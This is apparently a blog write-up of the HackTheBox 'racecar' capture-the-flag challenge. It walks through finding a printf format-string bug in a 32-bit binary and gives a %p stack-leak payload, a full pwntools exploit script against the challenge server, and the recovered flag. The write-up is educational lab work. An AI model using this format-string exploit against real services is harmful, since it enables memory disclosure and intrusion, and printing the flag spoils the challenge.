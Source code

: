 ```yaml
---
layout: post
title: Binary Exploitation&#58; HacktheBox/racecar
---
```


## HacktheBox racecar Write-up

First we check the file type.
```
└─$ file racecar 
racecar: ELF 32-bit LSB pie executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=c5631a370f7704c44312f6692e1da56c25c1863c, not stripped
```

And the securities.
```
└─$ checksec --file=racecar             
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable	FILE
Full RELRO      Canary found      NX enabled    PIE enabled     No RPATH   No RUNPATH   96 Symbols	  No	0		3		racecar
```

Full RELRO, Canary, NX, and PIE. Seeing as this is an easy challenge, I am going to assume shell injection and buffer overflows are off the table.

### Reversing

Our vulnerability lies in the ```car_menu()``` function.
```c
    __format = (char *)malloc(0x171);
    __stream = fopen("flag.txt","r");
    if (__stream == (FILE *)0x0) {
      printf("%s[-] Could not open flag.txt. Please contact the creator.\n",&DAT_00011548,puVar5);
                    /* WARNING: Subroutine does not return */
      exit(0x69);
    }
    fgets(local_3c,0x2c,__stream);
    read(0,__format,0x170);
    puts(
        "\n\x1b[3mThe Man, the Myth, the Legend! The grand winner of the race wants the whole world  to know this: \x1b[0m"
        );
    printf(__format);
  }
```

Our flag is read into a ```char``` array on the stack, and we are prompted for our "Message to the press". Problem is, our input is used as the format string for a ```printf``` function. We can leverage this vulnerability to read arbitrary memory off the stack, and in our case, the flag.

### Pwn

To start, we need to find out what the offset of the flag is from the output of the ```printf()``` function. To do this, we can create our own ```flag.txt``` and input a value that will be easily identified.
```
python -c 'print b"\xef\xbe\xad\xde"' > flag.txt
```

Now just run the program again like we did before.
```
[!] Do you have anything to say to the press after your big victory?
> %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p 

The Man, the Myth, the Legend! The grand winner of the race wants the whole world to know this: 
0x584e7200 0x170 0x565b8dfa 0x2f 0x8 0x26 0x2 0x1 0x565b996c 0x584e7200 0x584e7380 0xdeadbeef 0xf7f4000a 0xf7d22e45 0xa6989400 0x565b9d58 0x565bbf8c 0xffd1bd08 0x565b938d 0x565b9540
```

Now we know that our flag starts at offset 12. We can use this information to get a list of hex value from the remote server, and knowing that the flag starts at offset 12, we can hopefully find where the flag ends.
```
└─$ python exploit_test.py
[+] Opening connection to 157.245.32.12 on port 31587: Done
/home/jake/Desktop/HTB/Challenges/racecar/exploit_test.py:9: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  r.recvuntil("Name: ")
/home/jake/Desktop/HTB/Challenges/racecar/exploit_test.py:11: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  r.recvuntil("Nickname: ")
/home/jake/Desktop/HTB/Challenges/racecar/exploit_test.py:15: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  r.recvuntil("> ")
/home/jake/Desktop/HTB/Challenges/racecar/exploit_test.py:17: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  r.recvuntil("> ")
/home/jake/Desktop/HTB/Challenges/racecar/exploit_test.py:19: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  r.recvuntil("> ")
/home/jake/Desktop/HTB/Challenges/racecar/exploit_test.py:21: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  r.recvuntil("> ")
[b'0x56e6c1c0', b'0x170', b'0x56558dfa', b'0x4f', b'0x8', b'0x26', b'0x2', b'0x1', b'0x5655996c', b'0x56e6c1c0', b'0x56e6c340', b'0x7b425448', b'0x5f796877', b'0x5f643164', b'0x34735f31', b'0x745f3376', b'0x665f3368', b'0x5f67346c', b'0x745f6e30', b'0x355f3368', b'0x6b633474', b'0x7d213f', b'0x4c084500', b'0xf7ee63fc', b'0x5655bf8c', b'0xffc1c568', b'0x56559441', b'0x1', b'0xffc1c614', b'0xffc1c61c', b'0x4c084500', b'0xffc1c580', b'(nil)', b'(nil)', b'0xf7d29f21', b'0xf7ee6000', b'0xf7ee6000', b'(nil)', b'0xf7d29f21', b'0x1', b'0xffc1c614', b'0xffc1c61c', b'0xffc1c5a4', b'0x1', b'0xffc1c614', b'0xf7ee6000', b'0xf7f0470a', b'0xffc1c610', b'(nil)', b'0xf7ee6000', b'\n']
[*] Closed connection to 157.245.32.12 port 31587
```

Now we can just use an online hex-to-ascii converter to find where the flag ends. After doing this, we will see that the final offset for the flag is 21.

Time to craft an exploit.
```python
#!/usr/bin/env python3

from pwn import *

payload = b"%p " * 50

r = remote("209.97.134.177", 31378)

r.recvuntil("Name: ")
r.sendline(b"asdf")
r.recvuntil("Nickname: ")
r.sendline(b"asdf")
r.recvuntil(b"> ")
r.sendline(b"1")
r.recvuntil("> ")
r.sendline(b"2")
r.recvuntil("> ")
r.sendline(b"2")
r.recvuntil("> ")
r.sendline(b"1")
r.recvuntil("> ")

r.sendline(payload)
r.recvline()
r.recvline()

result = r.recvline().split(b" ")
# print(result)

# Need index 11-21 and convert it from hex to ascii
flag = ""

for i in range(11, 22):
    tmp = str(result[i][2:].decode())
    flag += bytearray.fromhex(tmp).decode()[::-1]

print(flag)
```

The exploit recieves the string, splits it into an array, then loops through the indecies we need. Once each element we need from the list is striped, converted, and reversed order we append it to the flag and print it out.
```
└─$ python exploit.py     
[+] Opening connection to 157.245.32.12 on port 31587: Done
/home/jake/Desktop/HTB/Challenges/racecar/exploit.py:9: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  r.recvuntil("Name: ")
/home/jake/Desktop/HTB/Challenges/racecar/exploit.py:11: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  r.recvuntil("Nickname: ")
/home/jake/Desktop/HTB/Challenges/racecar/exploit.py:15: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  r.recvuntil("> ")
/home/jake/Desktop/HTB/Challenges/racecar/exploit.py:17: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  r.recvuntil("> ")
/home/jake/Desktop/HTB/Challenges/racecar/exploit.py:19: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  r.recvuntil("> ")
/home/jake/Desktop/HTB/Challenges/racecar/exploit.py:21: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  r.recvuntil("> ")
HTB{why_d1d_1_s4v3_th3_fl4g_0n_th3_5t4ck?!}
[*] Closed connection to 157.245.32.12 port 31587
```

Et Voila!
